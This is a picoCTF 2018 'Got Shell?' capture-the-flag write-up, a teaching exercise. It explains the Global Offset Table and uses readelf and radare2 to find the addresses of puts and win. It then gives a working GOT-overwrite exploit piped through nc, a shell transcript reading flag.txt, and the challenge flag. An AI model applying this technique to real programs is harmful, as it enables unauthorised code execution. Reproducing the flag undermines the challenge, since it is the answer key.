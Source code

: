 # Got Shell?
Can you authenticate to this [service](auth) and get the flag? Connect to it with `nc 2018shell.picoctf.com 27952`. [Source](auth.c)


## Solution
The solution to this problem involved overwriting the [Global Offset Table](https://en.wikipedia.org/wiki/Global_Offset_Table) entry for the `puts(str)` function with the `win()` function.


### Global Offset Table
The global offset table (GOT) is a map between [Position Independent Code](https://en.wikipedia.org/wiki/Position-independent_code) (usually) in shared libraries (functions such as `printf`, `puts`, etc.) to their absolute memory address. This is necessary because [shared libraries](https://en.wikipedia.org/wiki/Library_(computing)#Shared_libraries) are loaded to different memory addresses each time the program is started (due to [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)).


By looking at the relocations in the [ELF file](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) we see a list of symbols (of functions) that need to be patched at load time by the linker.

```
$ readelf --relocs auth

Relocation section '.rel.dyn' at offset 0x34c contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
 08049ffc  00000306 R_386_GLOB_DAT    00000000   __gmon_start__
 0804a030  00000905 R_386_COPY        0804a030   stdout@GLIBC_2.0

 Relocation section '.rel.plt' at offset 0x35c contains 7 entries:
  Offset     Info    Type            Sym.Value  Sym. Name
  0804a00c  00000107 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
  0804a010  00000207 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
  0804a014  00000407 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
  0804a018  00000507 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
  0804a01c  00000607 R_386_JUMP_SLOT   00000000   setvbuf@GLIBC_2.0
  0804a020  00000707 R_386_JUMP_SLOT   00000000   sprintf@GLIBC_2.0
  0804a024  00000807 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
```

> The dynamic loader will examine the relocation, go and find the value of a variable and patch the `.got` entry as required. When it comes time for the code loads to load that value, it will point to the right place and everything just works; without having to modify any code values and thus destroy code sharability.
>
> This handles data, but what about function calls? The indirection used here is called a procedure linkage table or PLT. Code does not call an external function directly, but only via a PLT stub.
>
> What's actually happening with `PLT` is lazy binding — by convention when the dynamic linker loads a library, it will put an identifier and resolution function into known places in the `GOT`. Therefore, what happens is roughly this: on the first call of a function, it falls through to call the default stub, which loads the identifier and calls into the dynamic linker, which at that point has enough information to figure out "hey, this libtest.so is trying to find the function foo". It will go ahead and find it, and then patch the address into the `GOT` such that the next time the original `PLT` entry is called, it will load the actual address of the function, rather than the lookup stub. Ingenious!

The blockquote, above, comes from [this](https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html) very helpful article about `PLT` and `GOT`.


Looking at the source code, we see that we call `puts()` after assigning `value` to the location pointed by `address`:

```
sprintf(buf, "Okay, writing 0x%x to 0x%x", value, address);
puts(buf);

*(unsigned int *)address = value;

puts("Okay, exiting now...\n");
```

Thus, the address for `puts()` was loaded in the `GOT` and therefore we could safely overwrite it with the address of `win()` without having to worry about the lazy loading logic of the `PLT`.


But how do we discover the address of `puts()` in the `GOT`?

By executing the command below we could get the location of the global offset table. We could also get the `GOT` address using [Radare2](https://en.wikipedia.org/wiki/Radare2).

```
$ readelf --syms auth | grep "_GLOBAL_OFFSET_TABLE_"
46: 0804a000     0 OBJECT  LOCAL  DEFAULT   24 _GLOBAL_OFFSET_TABLE_
```

```
$ r2 -d auth
[0xf5ac3a20]> xp @ obj._GLOBAL_OFFSET_TABLE 
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x0804a000  149f 0408 0000 0000 0000 0000 d683 0408  ................
0x0804a010  e683 0408 f683 0408 0684 0408 1684 0408  ................
0x0804a020  2684 0408 3684 0408 0000 0000 0000 0000  &...6...........
0x0804a030  0000 0000 0000 0000 0000 0000 0000 0000  ................
[0xf5ac3a20]> Q
```

We could set a breakpoint at `puts()` in radare2 and `step` (using `ds`) forward until we find ourself in the `GOT`.


```
$ r2 -d auth
[0xf70baa20]> aaa
[0xf70baa20]> s main
[0x08048564]> pdf
            ; DATA XREF from entry0 @ 0x8048467
┌ 266: int main (int argc, char **argv, char **envp);
│           ; var int32_t var_11ch @ ebp-0x11c
│           ; var int32_t var_114h @ ebp-0x114
│           ; var int32_t var_110h @ ebp-0x110
│           ; var int32_t var_10ch @ ebp-0x10c
│           ; var int32_t var_ch @ ebp-0xc
│           ; arg int32_t arg_4h @ esp+0x144
│           0x08048564      8d4c2404       lea ecx, [arg_4h]
│           0x08048568      83e4f0         and esp, 0xfffffff0
│           0x0804856b      ff71fc         push dword [ecx - 4]
│           0x0804856e      55             push ebp
...
...	# skipped a bunch here
...
│           0x0804863b      50             push eax
│           0x0804863c      e88ffdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048641      83c410         add esp, 0x10
│           0x08048644      8b85ecfeffff   mov eax, dword [var_114h]
│           0x0804864a      89c2           mov edx, eax
│           0x0804864c      8b85f0feffff   mov eax, dword [var_110h]
│           0x08048652      8902           mov dword [edx], eax
│           0x08048654      83ec0c         sub esp, 0xc
│           0x08048657      68ac870408     push str.Okay__exiting_now... ; 0x80487ac ; "Okay, exiting now...\n"
│           0x0804865c      e86ffdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048661      83c410         add esp, 0x10
│           0x08048664      83ec0c         sub esp, 0xc
│           0x08048667      6a01           push 1                      ; 1
└           0x08048669      e882fdffff     call sym.imp.exit           ; void exit(int status)
[0x08048564]> db 0x0804863c
[0x08048564]> dc
I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?
0
Okay, now what value would you like to write to 0x0
0
hit breakpoint at: 804863c
```

Once we hit the breakpoint we have to step forward until we arrive at an address that doesn't look something in the `auth.c` code.

```
[0x0804863c]> ds
[0x080483d0]> ds
[0xf6f4a890]> xp @ obj._GLOBAL_OFFSET_TABLE 
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x0804a000  149f 0408 20e9 0df7 e0f5 0cf7 90a8 f4f6  .... ...........
0x0804a010  e683 0408 f683 0408 9031 f0f6 00b0 f4f6  .........1......
0x0804a020  3048 f3f6 306b f4f6 0000 0000 0000 0000  0H..0k..........
0x0804a030  60fd 09f7 0000 0000 0000 0000 0000 0000  `...............
```

Notice that the value at `obj._GLOBAL_OFFSET_TABLE + 0xc` is the same as the location of the instruction pointer. Therefore the address for `puts()` is at `address = 0x0804a00c`!

```
[0xf6f4a890]> xp @ obj._GLOBAL_OFFSET_TABLE + 0xc
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x0804a00c  90a8 f4f6 e683 0408 f683 0408 9031 f0f6  .............1..
0x0804a01c  00b0 f4f6 3048 f3f6 306b f4f6 0000 0000  ....0H..0k......
0x0804a02c  0000 0000 60fd 09f7 0000 0000 0000 0000  ....`...........
```

Now all that's left is the figure out what value to put there. But that's easy! Using Radare2 we could quickly find out the address of the `win()` function.


```
$ r2 -d auth                                                                                                   
[0xee61aa20]> aaa
[0xee61aa20]> afl
0x08048450    1 33           entry0
0x08048400    1 6            sym.imp.__libc_start_main
0x08048490    4 43           sym.deregister_tm_clones
0x080484c0    4 53           sym.register_tm_clones
0x08048500    3 30           entry.fini0
0x08048520    4 43   -> 40   entry.init0
0x080486d0    1 2            sym.__libc_csu_fini
0x08048480    1 4            sym.__x86.get_pc_thunk.bx
0x080486d4    1 20           sym._fini
0x08048670    4 93           sym.__libc_csu_init
0x0804854b    1 25           sym.win
0x080483e0    1 6            sym.imp.system
0x08048564    1 266          main
0x08048410    1 6            sym.imp.setvbuf
0x080483d0    1 6            sym.imp.puts
0x08048430    1 6            sym.imp.__isoc99_scanf
0x08048420    1 6            sym.imp.sprintf
0x080483f0    1 6            sym.imp.exit
0x08048394    3 35           sym._init
[0xee61aa20]> Q
```

Thus the `value = 0x0804854b`!

### Exploit
Using everything we learned from the [Solution](##Solution) section, above, we could put those the `address` and the `value` into a file called `exploit.in` and pipe that into the service.

```
$ cat exploit.in 
0804a00c
0804854b
```

Here is the full exploit:

```
$ (cat exploit.in ; cat) | nc 2018shell.picoctf.com 27952                                                      
I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?
Okay, now what value would you like to write to 0x804a00c
Okay, writing 0x804854b to 0x804a00c
id
uid=1221(got-shell-_0) gid=1222(got-shell-_0) groups=1222(got-shell-_0)
ls
auth
auth.c
flag.txt
xinet_startup.sh
cat flag.txt
picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_d496409a}
exit
```


The flag is `picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_d496409a}`.


### Hints
- Ever heard of the Global Offset Table?
